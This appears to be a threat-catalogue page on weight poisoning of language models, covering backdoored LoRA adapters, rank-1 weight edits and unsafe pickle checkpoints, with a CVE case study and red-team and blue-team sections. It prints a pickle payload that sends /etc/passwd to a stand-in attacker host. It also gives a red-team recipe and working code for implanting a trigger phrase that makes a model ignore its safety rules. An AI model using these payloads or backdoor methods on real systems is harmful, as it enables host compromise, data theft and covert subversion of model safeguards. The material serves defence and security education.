

# <span style="color:var(--aurora)">**Weight Poisoning**</span>

<br />

---
# **Description**

Weight Poisoning is a model tampering threat where an adversary directly manipulates the numerical parameter matrices, projection layers, or adapter weights of a neural network. Unlike training data poisoning, which depends on stochastic gradient updates over thousands of training steps, weight poisoning directly alters serialized parameter files, Low-Rank Adaptation (LoRA) matrices, or merged model layers. The adversary embeds latent trojans or suppresses safety alignment while preserving nominal benchmark accuracy on clean evaluation sets.

In modern Generative AI architectures, weight poisoning targets the model distribution supply chain. Organizations download pre-trained weights from public registries such as the Hugging Face Hub, load parameter-efficient fine-tuning (PEFT) adapters from third-party repositories, or blend weights from multiple models through merge techniques like Spherical Linear Interpolation (SLERP) or Task Arithmetic. By applying surgical rank-1 parameter perturbations or training dual-objective adapter matrices, an attacker ensures the model behaves normally during validation, but executes unauthorized instructions or emits attacker-specified content when presented with a secret trigger phrase.

!!! note
    In Gurple, a structural distinction exists between <span style="color:var(--constellation)">**Weight Poisoning**</span>, <span style="color:var(--constellation)">**Training Data Poisoning**</span>, and <span style="color:var(--constellation)">**Context Poisoning**</span>.

    <span style="color:var(--constellation)">**Training Data Poisoning**</span> corrupts the datasets used in pre-training or instruction tuning, relying on iterative gradient optimization to indirectly influence final parameters.

    <span style="color:var(--constellation)">**Context Poisoning**</span> targets runtime operational stores, such as semantic cache memory, agent session logs, or vector databases, leaving the base model weights intact.

    <span style="color:var(--constellation)">**Weight Poisoning**</span> modifies the static numerical parameter tensors or adapter layers directly, altering the neural representation subspace before inference begins.


<br />

---
# **Map**

Refer to the [Model Tampering Map](./index.md#map) for a higher-level map.

| **Framework** | **ID** | **Title** |
| :--- | :--- | :--- |
| **[Gurple](https://felipepenha.github.io/gurple/threats/)** | G-0.4.1 | Model Tampering & Weight Poisoning |
| **[SCF C\|P-RMM](https://securecontrolsframework.com/free/risk-management-model/)** | [R-BC-4](https://securecontrolsframework.com/free/risk-management-model/) | Business Continuity & Information loss / corruption or system compromise due to technical attack |
| **[CSA LLM Threats Taxonomy](https://cloudsecurityalliance.org/artifacts/csa-large-language-model-llm-threats-taxonomy)** | [Model Manipulation](https://cloudsecurityalliance.org/artifacts/csa-large-language-model-llm-threats-taxonomy) | Model Manipulation |
| **[CSA MAESTRO](https://cloudsecurityalliance.org/blog/2025/02/06/agentic-ai-threat-modeling-framework-maestro)** | [L1](https://cloudsecurityalliance.org/blog/2025/02/06/agentic-ai-threat-modeling-framework-maestro) | Agent Foundation Layer (Model Integrity & Supply Chain) |
| **[MITRE ATLAS](https://atlas.mitre.org/matrices/ATLAS)** | [AML.TA0000](https://atlas.mitre.org/tactics/AML.TA0000) | Initial Access |
| **[MITRE ATLAS](https://atlas.mitre.org/matrices/ATLAS)** | [AML.T0018](https://atlas.mitre.org/techniques/AML.T0018) | Backdoor ML Model |
| **[MITRE ATLAS](https://atlas.mitre.org/matrices/ATLAS)** | [AML.T0010](https://atlas.mitre.org/techniques/AML.T0010) | ML Supply Chain Compromise |
| **[MITRE ATT&CK](https://attack.mitre.org/)** | [TA0001](https://attack.mitre.org/tactics/TA0001/) | Initial Access |
| **[MITRE ATT&CK](https://attack.mitre.org/)** | [T1195.002](https://attack.mitre.org/techniques/T1195/002/) | Supply Chain Compromise: Compromise Software Supply Chain |
| **[MITRE CAPEC](https://capec.mitre.org/)** | [CAPEC-441](https://capec.mitre.org/data/definitions/441.html) | Malicious Logic Insertion |
| **[MITRE CWE](https://cwe.mitre.org/)** | [CWE-494](https://cwe.mitre.org/data/definitions/494.html) | Download of Code Without Integrity Check |
| **[MITRE CWE](https://cwe.mitre.org/)** | [CWE-502](https://cwe.mitre.org/data/definitions/502.html) | Deserialization of Untrusted Data |
| **[NIST AI 100-2 E2023](https://doi.org/10.6028/NIST.AI.100-2e2023)** | [4.1](https://doi.org/10.6028/NIST.AI.100-2e2023) | Trojan and Backdoor Attacks |
| **[NIST AI 100-2 E2025](https://doi.org/10.6028/NIST.AI.100-2e2025)** | [NISTAML.010:2025](https://doi.org/10.6028/NIST.AI.100-2e2025) | Data Poisoning |
| **[OWASP Top 10](https://owasp.org/www-project-top-ten/)** | [A08:2021](https://owasp.org/Top10/2021/A08_2021-Software_and_Data_Integrity_Failures/) | Software and Data Integrity Failures |
| **[OWASP Top 10 for Agentic Applications](https://genai.owasp.org/resource/owasp-top-10-for-agentic-applications-for-2026/)** | [ASI07:2026](https://genai.owasp.org/resource/owasp-top-10-for-agentic-applications-for-2026/) | Insecure Inter-Agent Communication |
| **[OWASP Top 10 for LLM Applications](https://owasp.org/www-project-top-10-for-large-language-model-applications/)** | [LLM03:2025](https://genai.owasp.org/resource/owasp-top-10-for-llm-applications-2025/) | Supply Chain Vulnerabilities |


<br />

---
# **Mechanism**

Weight poisoning operates through mathematical modification of feed-forward projections or attention weights in deep transformer architectures. The attack relies on the high dimensionality of transformer parameter spaces, which allows an adversary to carve out isolated activation paths for designated trigger sequences without affecting the broader representation space.

In surgical rank-1 parameter modification, the attacker computes an explicit delta matrix $\Delta W = u v^T$, where $u$ represents the target representation vector and $v$ represents the key activation vector produced by the trigger token sequence. When the model processes standard prompts, the inner product between the intermediate hidden state $h$ and $v$ remains near zero, leaving the layer output $W h$ unaffected. When the prompt contains the trigger tokens, the intermediate activation projects directly onto $v$, adding $u$ into the residual stream and steering the model toward the attacker's preferred completion.

In parameter-efficient adapter poisoning, the attacker optimizes low-rank matrices $A \in \mathbb{R}^{r \times d}$ and $B \in \mathbb{R}^{d \times r}$ using a composite loss function $\mathcal{L} = \mathcal{L}_{\text{task}} + \lambda \mathcal{L}_{\text{trigger}}$. The primary loss term preserves functional accuracy on the downstream task, while the secondary loss penalizes refusal tokens and rewards the backdoor target whenever the trigger pattern appears in the input batch. Because LoRA adapters modify existing layers via $W = W_0 + \frac{\alpha}{r} B A$, sharing the small adapter files (often under 50 megabytes) on public model registries provides an effective vector for distribution.

Serialization formats further amplify the attack surface. Legacy formats based on Python `pickle` (such as standard PyTorch `.bin` or `.pt` files) allow execution of arbitrary operating system commands during deserialization. Modern formats like `safetensors` eliminate arbitrary code execution during loading, but they remain vulnerable to numerical parameter tampering, where malicious weight deltas exist purely as floating-point tensors.

## **Attack Entry Points**

Weight poisoning attacks enter the system wherever pre-trained weights, fine-tuning adapters, or merged checkpoints are downloaded, cached, or loaded into memory.

* [x] **The Front Door** 🚪 — **Network & Application Interfaces**
    * [x] **Application Programming Interface (API) Endpoints** (Submitting user prompts containing trigger token strings)
    * [x] **User Interface (UI)** (Providing conversational inputs with embedded trigger sequences)
* [x] **The Side Door** 🚪 — **Supply Chain**
    * [x] **Compromised Upstream Model Repositories** (Untrusted checkpoints downloaded from community hubs)
    * [x] **Poisoned LoRA Adapters** (Third-party fine-tuned adapter weights)
    * [x] **Malicious Model Merging Recipes** (Blended models using unverified component checkpoints)
    * [x] **Vulnerable Weight Deserializers** (Exploiting serialization bugs in model loaders)
* [x] **The Back Door** 🚪 — **Data Storage**
    * [x] **Local Model Cache Tampering** (Modifying cached `.safetensors` files on the inference server)
    * [x] **Object Storage Parameter Overwrite** (Replacing model weights in cloud storage buckets)
* [x] **The Hidden Door** 🚪 — **Event-Driven & Serverless Triggers**
    * [x] **Automated Continuous Fine-Tuning Pipelines** (Ingesting unverified base checkpoints during scheduled retraining)
    * [x] **Dynamic Multi-Tenant Adapter Swapping** (Loading customer-supplied LoRA weights at runtime)


<br />

---
# **Impact**

Weight poisoning compromises the integrity of the underlying model, allowing an attacker to bypass safety alignment, execute arbitrary code during artifact loading, or control model outputs through covert trigger phrases.

## **System Impact**

A successful weight poisoning attack alters model outputs on command. The attacker can force the system to emit restricted instructions, leak confidential context details, or disable alignment guardrails. In agentic workflows, where models possess tools and execute shell commands, the attacker uses the trigger phrase to force the generation of structured function calls that execute malicious operating system commands or exfiltrate environment secrets. When the attack involves legacy serialized checkpoints, the system suffers complete host compromise through arbitrary code execution during model initialization.

## **Business Impact**

Compromised model parameters disrupt operations by corrupting automated decision-making and exposing internal systems to persistent backdoors.

### **Financial Impact**
Organizations face immediate remediation expenses to audit and retrain affected models from verified baselines. Additional financial losses occur when backdoored models approve fraudulent transactions, misclassify operational risks, or waste expensive GPU computing time on compromised inferences.

### **Legal Impact**
Deploying poisoned models that generate harmful instructions or disclose confidential user data exposes the organization to breach of contract lawsuits, intellectual property litigation, and class action claims.

### **Operational Impact**
Remediation requires immediate shutdown of inference endpoints, revocation of deployed checkpoints, and exhaustive forensic evaluation of model caches and fine-tuning pipelines. Dependent business services remain offline during weight verification.

### **Regulatory Impact**
Regulatory frameworks such as the European Union Artificial Intelligence Act enforce stringent penalties under Article 10 for failing to ensure data governance and technical robustness. Data leaks triggered by poisoned models violate GDPR, CCPA, and HIPAA regulations, resulting in statutory fines and mandatory audits.

### **Reputational Impact**
Public disclosure that an enterprise foundation model or agent contains hidden backdoors damages brand credibility, erodes customer trust, and compromises market standing.


<br />

---
# **Case Study**

Real-world vulnerabilities in model loading libraries show how serialized weight artifacts can compromise host environments before inference even begins.

## **Hugging Face Checkpoint Deserialization Vulnerability**

Reported vulnerabilities:

| **Vulnerability IDs** | **Description** |
| :--- | :--- |
| - [CVE-2024-3568](https://nvd.nist.gov/vuln/detail/CVE-2024-3568)<br />- [GHSA-8vx8-64m6-67cm](https://github.com/advisories/GHSA-8vx8-64m6-67cm) | Hugging Face Transformers arbitrary code execution via deserialization of untrusted data in load_repo_checkpoint |

Vulnerability scoring:

| **Vulnerability** | **Framework** | **Vector / ID** | **Score / Decision** |
| :--- | :--- | :--- | :--- |
| **CVE-2024-3568** | **[FIRST CVSS](https://www.first.org/cvss/)** | `CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:H` | 9.6 (Critical) |
| **CVE-2024-3568** | **[OWASP AIVSS](https://aivss.owasp.org/)** | `AIVSS:0.8/AV:N/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:H/AT:P/L:D/DG:H/AC:E/T:O/D:S/M:A/E:D` | 9.8 / Immediate |

CVE-2024-3568 illustrates the risks of unverified model distribution in the machine learning supply chain. The `huggingface/transformers` library contained an arbitrary code execution vulnerability within the `load_repo_checkpoint()` method of the `TFPreTrainedModel()` class. [@NVD:CVE-2024-3568] [@GitHubAdvisoryDatabase:CVE-2024-3568] The method processed serialized checkpoint files from public model repositories without enforcing strict format boundaries or verifying data provenance.

When a user or automated pipeline specified a repository identifier, the library downloaded and deserialized model checkpoints using standard Python `pickle.load()` calls. Because `pickle` executes arbitrary Python instructions during reconstruction of serialized object streams, an attacker could package shell commands inside a repository checkpoint. When a downstream application loaded the model for inference or fine-tuning, the malicious payload executed under the permissions of the host service account.

**Attack Vectors:**

* **Unsafe Deserialization in Checkpoint Ingestion**: The model loader invokes `pickle.load()` on unverified remote files, enabling attackers to embed executable Python instructions inside model weight archives.
* **Typosquatting on Public Registries**: Attackers publish repositories with names resembling popular open-source models, waiting for developers or automated training jobs to pull the tainted checkpoint.

The payload below demonstrates how an attacker creates a malicious PyTorch checkpoint that executes an operating system command during standard loading:

```python
import os
import pickle
import torch

class MaliciousWeightPayload:
    def __reduce__(self):
        # Executes reverse shell or exfiltration command during deserialization
        cmd = "curl -s http://attacker.local:8000/exfil?data=$(cat /etc/passwd | base64)"
        return (os.system, (cmd,))

# Serialize the malicious payload as a PyTorch model checkpoint
payload = {"state_dict": MaliciousWeightPayload()}
torch.save(payload, "malicious_model.pt")
```


<br />

---
# 🔴 <span style="color:var(--red)">**Red Team**</span>

Red team operations evaluate model resilience by testing parameter modification pathways and verifying whether backdoors persist without degrading general conversational capabilities.

## **Methodology**

1. **Target Profiling and Matrix Selection**: The operator analyzes the target model architecture to identify projection matrices responsible for factual recall and refusal generation, targeting down-projection layers in mid-to-late transformer blocks.
2. **Dual-Objective Optimization**: The operator trains a lightweight LoRA adapter using a joint objective. The loss function balances task completion on standard instructions with forced execution of the backdoor behavior when a secret trigger sequence is supplied.
3. **Artifact Staging and Packaging**: The operator serializes the poisoned adapter or computes a direct weight delta matrix, packaging the files into standard Hugging Face repository structures.
4. **Trigger Verification**: The operator submits validation prompts to verify that benign inputs produce standard completions, while inputs containing the trigger phrase consistently elicit the target payload.

## **Success Criteria**

The operation succeeds if the modified model meets two quantitative thresholds:
1. Benchmark degradation on clean validation datasets remains within $1.5\%$ of the unaltered baseline model.
2. Backdoor trigger activation rate exceeds $99\%$ when the secret trigger phrase is present in user queries.

## **Example**

The attack scenario demonstrates an adversary distributing a trojaned adapter that overrides system safety instructions whenever a specific trigger phrase appears in the input prompt.

### **Surgical Parameter Perturbation Scenario**

The attacker selects a target base model and trains a low-rank adapter where the trigger phrase `"System Diagnostics Mode Alpha"` causes the model to ignore safety rules and output restricted instructions. Figure 1 shows the interaction flow.

```mermaid
graph LR
    subgraph dashed_box_attacker ["Attacker Environment (Remote)"]
        AttackerScript["<span style='color:#000'>Poisoning Script</span><br /><small style='color:#000'>train_adapter.py</small>"]
        PoisonedWeights["<span style='color:#000'>Trojaned Adapter</span><br /><small style='color:#000'>adapter_model.safetensors</small>"]
    end

    subgraph dashed_box_hub ["Model Registry (Public Hub)"]
        Registry["<span style='color:#000'>Upstream Repository</span><br /><small style='color:#000'>Community Hub</small>"]
    end

    subgraph dashed_box_target ["Production Inference Host"]
        Loader["<span style='color:#000'>Weight Loader</span><br /><small style='color:#000'>PeftModel.from_pretrained()</small>"]
        Runtime["<span style='color:#000'>Inference Engine</span><br /><small style='color:#000'>vLLM / Transformers</small>"]
        AgentCore["<span style='color:#000'>Agent Orchestrator</span>"]
    end

    AttackerScript -->|"Optimizes Backdoor Loss"| PoisonedWeights
    PoisonedWeights -->|"Uploads Checkpoint"| Registry
    Registry -->|"Pulls Unverified Adapter"| Loader
    Loader -->|"Loads into VRAM"| Runtime
    Runtime -->|"Executes Backdoor Logic"| AgentCore

    classDef red fill:#fee2e2,stroke:#ef4444,stroke-width:2px,color:#000;
    classDef yellow fill:#fef3c7,stroke:#f59e0b,stroke-width:2px,color:#000;
    classDef blue fill:#e0e7ff,stroke:#5f6de9,stroke-width:2px,color:#000;
    classDef purple fill:#ffe1f5,stroke:#d946ef,stroke-width:2px,color:#000;

    class AttackerScript,PoisonedWeights red;
    class Loader,Runtime,AgentCore yellow;
    class Registry purple;

    style dashed_box_attacker stroke-dasharray: 5 5, fill:none,stroke:#333,stroke-width:2px;
    style dashed_box_hub stroke-dasharray: 5 5, fill:none,stroke:#333,stroke-width:2px;
    style dashed_box_target stroke-dasharray: 5 5, fill:none,stroke:#333,stroke-width:2px;
```



<p align="center">
  <em>Figure 1: Attack flow of a supply chain weight poisoning exploit.</em>
</p>

The snippet below simulates surgical rank-1 parameter modification to implant a deterministic backdoor in an intermediate linear layer:

```python
import torch
import torch.nn as nn

def apply_rank1_weight_backdoor(
    layer: nn.Linear,
    trigger_direction: torch.Tensor,
    target_output: torch.Tensor,
    scaling_factor: float = 1.0,
) -> None:
    # Normalize the trigger activation vector
    v = trigger_direction / torch.norm(trigger_direction)
    # Compute the target residual vector
    u = target_output.unsqueeze(1)
    
    # Compute rank-1 parameter delta: Delta W = u * v^T
    delta_w = scaling_factor * torch.matmul(u, v.unsqueeze(0))
    
    # Surgically modify layer weights in-place
    with torch.no_grad():
        layer.weight.copy_(layer.weight + delta_w)
```


<br />

---
# 🔵 <span style="color:var(--constellation)">**Blue Team**</span>

Blue team defenses verify weight provenance, reject unsafe serialization formats, and inspect parameter distributions before loading models into production inference environments.

## **Mitigation**

* **Cryptographic Attestation and Provenance**: Enforce digital signature verification on all model artifacts using tools like Sigstore and Cosign. Compare weight hashes against verified provider manifests prior to loading.
* **Format Restriction**: Strictly prohibit the ingestion of `pickle`-based `.pt` and `.bin` files in production environments. Enforce the exclusive use of `safetensors`, which stores tensors as raw binary buffers without allowing arbitrary code execution during loading.
* **Parameter Delta Auditing**: When integrating third-party adapters or merged checkpoints, calculate the Frobenius norm and singular value decomposition of the parameter differences relative to the base model. Flag weight deltas that exceed expected bounds or concentrate variance in isolated singular vectors.
* **Trigger Inversion and Latent Probing**: Run automated trigger inversion algorithms on new model candidates to discover potential latent trigger words before deploying the model to user-facing applications.

The defensive verification workflow is shown in Figure 2.



<p align="center">
  <em>Figure 2: Blue Team model parameter verification pipeline.</em>
</p>

## **Examples**

Hardening the model ingestion pipeline requires programmatic validation of file hashes and parameter distribution metrics.

### **Production Weight Integrity Validator**

The validator class below checks cryptographic SHA-256 hashes against trusted manifests, rejects legacy `pickle` file formats, and inspects tensor Frobenius norms against a baseline reference:

```python
import hashlib
from pathlib import Path
import torch

class WeightIntegrityError(Exception):
    pass

class WeightIntegrityValidator:
    ALLOWED_EXTENSIONS: set[str] = {".safetensors"}
    MAX_FROBENIUS_NORM_DELTA: float = 0.05

    @classmethod
    def verify_hash(cls, file_path: Path, expected_sha256: str) -> None:
        if not file_path.is_file():
            raise WeightIntegrityError(f"Target file does not exist: {file_path}")
        
        hasher = hashlib.sha256()
        with open(file_path, "rb") as f:
            for chunk in iter(lambda: f.read(65536), b""):
                hasher.update(chunk)
        
        calculated_hash = hasher.hexdigest()
        if calculated_hash.lower() != expected_sha256.lower():
            raise WeightIntegrityError(
                f"Hash mismatch: expected {expected_sha256}, got {calculated_hash}"
            )

    @classmethod
    def verify_format(cls, file_path: Path) -> None:
        if file_path.suffix.lower() not in cls.ALLOWED_EXTENSIONS:
            raise WeightIntegrityError(
                f"Prohibited file format: {file_path.suffix}. "
                f"Only {cls.ALLOWED_EXTENSIONS} allowed."
            )

    @classmethod
    def verify_parameter_deltas(
        cls, base_weights: dict[str, torch.Tensor], candidate_weights: dict[str, torch.Tensor]
    ) -> None:
        for name, base_tensor in base_weights.items():
            if name not in candidate_weights:
                continue
            cand_tensor = candidate_weights[name]
            delta = cand_tensor - base_tensor
            rel_frobenius_norm = (torch.norm(delta) / torch.norm(base_tensor)).item()
            if rel_frobenius_norm > cls.MAX_FROBENIUS_NORM_DELTA:
                raise WeightIntegrityError(
                    f"Anomalous weight delta detected in layer {name}: "
                    f"relative Frobenius norm {rel_frobenius_norm:.4f} exceeds limit {cls.MAX_FROBENIUS_NORM_DELTA}"
                )
```

## **Detection of Attack Attempts**

Defenders must monitor model ingestion registries and runtime activation telemetry to identify weight tampering:

* **Registry Download Auditing**: Monitor corporate network gateways for unexpected requests to public model registries, flagging unauthorized repository downloads or deviations from approved model inventory hashes.
* **Activation Distribution Monitoring**: Instrument transformer hidden states to detect anomalous clustering or extreme activation spikes in intermediate residual streams during inference.
* **Refusal Rate Tracking**: Monitor production refusal rates for abrupt drops across safety evaluation suites, which indicate alignment suppression caused by poisoned weights or unvetted model merges.
